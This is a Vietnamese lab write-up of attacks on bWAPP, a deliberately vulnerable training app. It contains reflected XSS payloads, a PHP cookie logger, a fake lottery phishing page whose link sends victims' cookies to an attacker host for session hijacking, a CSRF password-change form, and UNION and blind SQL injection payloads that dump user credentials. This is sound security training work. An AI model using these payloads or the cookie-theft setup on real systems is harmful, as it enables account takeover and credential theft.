# bWAPP

### 1. Khai thác XSS

#### 1.1 Nhiệm vụ 1. Thực hành khai thác XSS phản xạ sử dụng phương thức GET mức
độ dễ

- xác định lỗ hổng xss reflected



- sau khi nhập tên thì trình duyệt render trực tiếp tên đó, sau đó thử nhập
    
    ```bash
    <script>alert("XSS")</script>
    ```
    



- xác định có lỗ hổng xss reflected
- tiếp theo  khai thác lấy cookie của người dùng này bằng cách tạo một host chứa get.php
    
    ```bash
    <?php
    if(isset($_GET['cookie']))
    {
    $cookie = $_GET['cookie'];
    // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để
    //write chứ không scan hay read
    $f=fopen('cookie.txt','a');
    // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
    fwrite($f,$_SERVER['HTTP_REFERER']);
    // Ghi giá trị cookie
    fwrite($f,". Cookie la: ".$cookie." \n");
    // Đóng file lại
    fclose($f);
    }
    ?>
    ```
    
- sau đó  tạo một trang html giả mạo trúng lottery để người dùng bấm vào link
    
    ```bash
    <html>
      <head>
        <title>Lottery</title>
      </head>
      <body>
        <h1 align="center">CONGRATULATIONS!!!</h1>
        <h1 align="center">YOU WON!!!</h1>
    
        Click this
        <a
          href="http://192.168.62.105/bWAPP/xss_get.php?firstname=%3Cscript%3Enew%20Image().src=%27http://192.168.62.102/get.php?cookie=%27%2Bdocument.cookie;%3C/script%3E&lastname=phong&form=submit"
          >link</a
        >
        to see your prize
      </body>
    </html>
    ```
    
- 192.168.62.102 là host chứa file get.php, sau khi chạy nó sẽ ghi cookie của người dùng vào cookie.txt



- sau đó dùng PHPSESSID để import vào cookie trên trình duyệt là đăng nhập được.

#### 1.2 Nhiệm vụ 2. Thực hành khai thác XSS phản xạ sử dụng phương thức GET mức
độ trung bình

- thử payload sau nhưng không được
    
    ```bash
    <script>alert("XSS")</script>
    ```
    
- thử payload sau thì được
    
    ```bash
    <script>alert(String.fromCharCode(88, 83, 83))</script>
    ```
    
    - **88** là mã ASCII của ký tự **X**
    - **83** là mã ASCII của ký tự **S**
    - **83** là mã ASCII của ký tự **S**
- đoạn khác thác tiếp làm tương tự như nhiệm vụ 1

### 2. Khai thác CSRF

#### 2.1. Nhiệm vụ 1. Thực hành khai thác (Change Password) mức độ dễ

- chặn request đổi password



- sử dụng tính năng Generate CSRF PoC



- sau đó tạo file html đó vào host để gửi cho nạn nhân,   sẽ dùng xamp để làm web server chứa html đó.
    
    ```bash
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://192.168.62.105/bWAPP/csrf_1.php">
          <input type="hidden" name="password&#95;new" value="phongcsrf" />
          <input type="hidden" name="password&#95;conf" value="phongcsrf" />
          <input type="hidden" name="action" value="change" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
    ```
    
- sau khi đóng giả chính nạn nhân và nhấn vào submit request thì password đã bị thay đổi.



### 3. Khai thác SQL Injection

#### 3.2. Nhiệm vụ 2. SQL Injection (GET/Search)



- ô search cho phép tìm kiếm, nhập dấu ‘ thì hiển thị lỗi sql → có lỗ hổng sqli



- tìm số cột
    
    
    
    
    
- order by để sắp xếp giá trị của cột trong sql, nhập đến cột 8 thì sql báo không có cột 8
    
    → câu sql gốc chỉ có 7 cột
    
- tiếp theo tìm cột nào có thể khai thác được
    
    ```bash
    a' union select 1,2,3,4,5,6,7-- -
    ```
    
    
    
- thấy cột 2 3 4 5 có hiển thị ra trang web và có thể khai thác được. Thay giá trị 2 bằng version(), giá trị 3 bằng database(), giá trị 4 bằng user() ta lần lượt tìm ra phiên bản SQL, tên CSDL, tên user hiện tại ứng dụng đang sử dụng là:
    
    
    
- tiếp theo lấy ra tên của các bảng trong csdl
    
    ```bash
    a' union select 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema=database()-- -
    ```
    
    
    
- xác định tên các cột trong bảng users
    
    ```bash
    a' union select 1,2,3,4,group_concat(column_name),6,7 from information_schema.columns where table_name="users"-- -
    ```
    
    
    
- lấy ra dữ liệu của các cột id, login, password, email của bảng users
    
    ```bash
    a' union select 1,2,3,4,group_concat(login,0x3a,password,0x3a,email),6,7 from users-- -
    ```
    
    
    
- dữ liệu được ngăn cách bởi dấu :

#### 3.4. Nhiệm vụ 3. SQL Injection – Blind – Boolean Based

- Nhập vào lần đầu với chuỗi: `a’ OR 1=1#` => Server trả về “The movie exits in our database” => True
- Nhập vào lần đầu với chuỗi: `a’ OR 1=2#` => Server trả về “The movie does not exits in our database” => False
- xác định độ dài tên CSDL
    
    ```bash
    a' or length(database())=5#
    ```
    
    → The movie exists in our database!
    

→ tên csdl có 5 ký tự

- xác định tên của csdl
    
    ```bash
    a' or substring(database(),1,1)='b'#
    ```
    
    ```bash
    a' or substring(database(),2,1)='b'#
    ```
    

⇒ tương tự suy ra tên của csdl là `bwapp`

- xác định tên các bảng trong csdl
    
    ```bash
    a' or substring((select table_name from information_schema.tables where table_schema='bWAPP' limit
    0,1),1,1)='b'#
    ```
    
- dùng burp suite để brute force ra được tên csdl đầu tiên là blog
- tương tự với các hàng khác bằng limit 1,1 … ta được các bảng `blog, heroes, users, movies,
visiters`
- xác định tên các cột trong bảng `users`
    
    ```bash
    a' or substring((select column_name from information_schema.columns where table_name='users' limit
    0,1),1,1)='i'#
    ```
    
- tương tự dùng burp suite thì ra được tên các cột của bảng users là `id, login, email, password`
- thu thập dữ liệu của cột id và password
    
    ```bash
    a' or substring((select id from users limit 0,1),1,1)='1'#
    ```
    
    ```bash
    a' or substring((select password from users limit 0,1),1,1)='1'#
    ```
    

⇒ dữ liệu của cột id và password là 

Id: 1, password: 688585486f31043e5839c735d99457f045afd0

Id: 2, password: 688585486f31043e5839c735d99457f045afd0